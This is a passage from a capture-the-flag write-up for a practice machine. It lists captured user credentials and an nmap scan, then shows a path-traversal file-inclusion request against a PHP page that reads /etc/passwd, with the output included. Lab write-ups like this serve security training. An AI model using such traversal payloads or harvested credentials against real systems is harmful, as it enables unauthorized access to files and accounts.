         </tbody>
      </table>
    </td>
  </tr>
</table>

## System Info
```bash
Ubuntu
```

## Users
```bash
tomcat : $3cureP4s5w0rd123!
ash : admin@it
```

## Enumeration

### nmap
```bash
$ nmap -sC -sV -p- -An -T4 10.10.10.194
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
```

## Foothold

### Apache Tomcat - LFI
```bash
http://megahosting.htb/news.php?file=../../../../../../../../etc/passwd

<<------------>>

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
```